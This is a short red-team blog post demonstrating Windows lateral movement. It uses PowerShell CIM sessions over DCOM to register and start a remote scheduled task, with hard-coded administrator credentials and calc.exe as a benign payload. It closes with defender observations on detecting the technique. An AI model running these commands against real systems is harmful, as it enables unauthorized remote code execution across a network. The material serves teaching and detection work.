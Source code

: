 ```yaml
---
layout: post
title: "2024-06-18-wmi via newscheduledtask"
date: 2024-06-18
categories: lateral-movement
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /wmi-via-newscheduledtask/
---
```


# WMI + NewScheduledTaskAction Lateral Movement

## Execution

On the victim system, let's run a simple loop to see when a new scheduled task gets added:

```csharp
$a=$null; while($a -eq $null) { $a=Get-ScheduledTask | Where-Object {$_.TaskName -eq "lateral"}; $a }
```

Now from the compromised victim system, let's execute code laterally:

{% code title="attacker@remote" %}
```csharp
$connection = New-Cimsession -ComputerName "dc-mantvydas" -SessionOption (New-CimSessionOption -Protocol "DCOM") -Credential ((new-object -typename System.Management.Automation.PSCredential -ArgumentList @("administrator", (ConvertTo-SecureString -String "123456" -asplaintext -force)))) -ErrorAction Stop; register-scheduledTask -action (New-ScheduledTaskAction -execute "calc.exe" -cimSession $connection -WorkingDirectory "c:\windows\system32") -cimSession $connection -taskname "lateral"; start-scheduledtask -CimSession $connection -TaskName "lateral"
```
{% endcode %}

Graphic showing both of the above commands and also the process ancestry on the target system:

![](<../../.gitbook/assets/Peek 2018-10-19 22-24.gif>)

## Observations

As usual, services.exe spawning unusual binaries should raise a wary defender's suspicion. You may also want consider monitoring for new scheduled tasks that get created on your systems:

![](<../../.gitbook/assets/Screenshot from 2018-10-19 22-35-13.png>)

![](<../../.gitbook/assets/Screenshot from 2018-10-19 22-59-12.png>)

{% hint style="info" %}
Sysmon config master version 64 from [https://github.com/SwiftOnSecurity/sysmon-config](https://github.com/SwiftOnSecurity/sysmon-config) does not log the calc.exe Process Creation event being spawned by the services.exe
{% endhint %}

@spotheplanet
